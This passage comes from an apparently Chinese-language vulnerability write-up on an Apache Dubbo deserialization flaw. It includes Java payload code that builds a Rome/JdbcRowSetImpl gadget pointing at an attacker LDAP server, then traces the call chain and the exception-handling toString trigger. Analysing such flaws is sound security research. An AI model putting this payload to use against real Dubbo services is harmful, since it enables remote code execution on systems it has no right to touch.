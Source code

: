    private static Object getPayload() throws Exception {
        String jndiUrl = "ldap://192.168.3.104:1389/sg56vh";
    
        ToStringBean bean = new ToStringBean(JdbcRowSetImpl.class, JDKUtil.makeJNDIRowSet(jndiUrl));
        EqualsBean root = new EqualsBean(ToStringBean.class, bean);
    
        return JDKUtil.makeMap(root, root);
    }
    ```
    
4. 运行provider服务者，再运行consumer消费者，触发漏洞

    

流量

![image-20200629170736311](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/image-20200629170736311.png)

`0xdabb`开头的为dubbo流量，提出后可以直接用socket发送触发漏洞



## 分析

### python版本触发点

```
org.apache.dubbo.rpc.protocol.dubbo.DubboCodec.decodeBody()
org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation.decode()
org.apache.dubbo.rpc.protocol.dubbo.CallbackServiceCodec.decodeInvocationArgument()
org.apache.dubbo.rpc.protocol.dubbo.DubboProtocol.getInvoker()
java.lang.StringBuilder.append()
java.lang.String.valueOf()
org.apache.dubbo.rpc.RpcInvocation.toString()
com.rometools.rome.feed.impl.ToStringBean.toString()
com.sun.rowset.JdbcRowSetImpl.getDatabaseMetaData()
com.sun.rowset.JdbcRowSetImpl.connect()
javax.naming.InitialContext.lookup()
```

python版本poc成功触发的关键点在于，通过构造一个不存在的`service_name`使得服务端获取不到期望的DubboExporter进而抛出异常，而在输出异常信息的时候进行了字符串拼接进而调用了隐含的toString方法，所以能够通过构造的恶意对象的toString方法触发漏洞

![image-20200630134254690](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/image-20200630134254690.png)

那么关键点就在异常处理部分了，也正是rui0提出的“后反序列化漏洞”的利用场景，重点来看一下

`org.apache.dubbo.rpc.protocol.dubbo.DubboProtocol.getInvoker()`

```java
//dubbo 2.7.3
if (exporter == null) {
    throw new RemotiyicngException(channel, "Not found exported service: " + serviceKey + " in " + this.exporterMap.keySet() + ", may be version or group mismatch , channel: consumer: " + channel.getRemoteAddress() + " --> provider: " + channel.getLocalAddress() + ", message:" + inv);
} else {
    return exporter.getInvoker();
}
```
